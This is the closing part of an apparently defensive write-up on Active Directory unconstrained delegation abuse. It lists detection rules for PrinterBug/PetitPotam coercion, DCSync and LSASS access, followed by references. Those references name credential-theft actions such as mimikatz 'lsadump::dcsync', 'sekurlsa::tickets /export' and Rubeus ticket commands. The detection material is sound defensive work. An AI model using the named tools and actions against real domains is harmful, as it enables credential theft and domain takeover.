### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has dedicated alerts for "Suspected coercion attacks using MS-RPRN" (PrinterBug) and "Suspected coercion attacks using MS-EFSRPC" (PetitPotam). Also detects DCSync from non-DC accounts. MDI monitors NTLM and Kerberos traffic at the DC level and can correlate the coercion authentication with the subsequent DCSync attempt.
- **Microsoft Sentinel / Splunk** — alert on Event ID 4662 where `SubjectUserName` does not match a known DC machine account (`*$` ending and matching the DC list). Separately, alert on 4648 events originating from DC machine accounts to non-DC, non-admin hosts. Correlation query: `EventID=4648 AND AccountName=*DC01* AND TargetServer NOT IN (knownDCs)`. For coercion: alert on Sysmon Event ID 3 from DC machine accounts to workstations on ports 445 or 135.
- **Sysmon** — Event ID 3 (Network Connection) from DCs to workstations is a strong PrinterBug/PetitPotam signal. Event ID 10 (Process Access) on any machine where LSASS is being read by an unexpected process (not `lsass.exe`, not AV/EDR processes). Rule: `ProcessAccess WHERE TargetImage CONTAINS "lsass.exe" AND NOT GrantedAccess IN (permitted_list)`.
- **Zeek / network monitoring** — DRSUAPI `DsGetNCChanges` calls from non-DC IP addresses (DCSync detection). MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx` calls from unexpected sources (PrinterBug). Zeek's `dce_rpc.log` captures RPC interface UUIDs and operation numbers, making both coercion methods detectable at the network layer without host-side agents.
- **CrowdStrike / EDR** — behavioral detections for `LsaCallAuthenticationPackage` patterns matching Rubeus tool signatures. Process ancestry detection: `SpoolSample.exe` or `PetitPotam.py` spawned from unexpected parent processes. Hash-based signatures for known Rubeus and SpoolSample binaries.
- **BloodHound / SharpHound** — during red team or purple team exercises, run SharpHound to enumerate `TRUSTED_FOR_DELEGATION` nodes. BloodHound visualizes the attack path from a compromised workstation to full domain compromise, making it easy for defenders to identify and prioritize remediation of unconstrained delegation in their environment.


## References

### Original Research
- Lee Christensen — PrinterBug / SpoolSample technique, forcing DC machine account authentication via MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx`
- Lionel Gilles (topotam) — PetitPotam, coercion via MS-EFSRPC `EfsRpcOpenFileRaw`
- Sean Metcalf — unconstrained delegation abuse research, adsecurity.org
- harmj0y (Will Schroeder) — Rubeus tooling and unconstrained delegation documentation

### Tools
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`dump`, `monitor`, `ptt` actions used throughout this note)
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts; `findDelegation.py`, `ticketConverter.py`, `secretsdump.py`
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — Windows credential tool; `sekurlsa::tickets /export`, `lsadump::dcsync`

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)
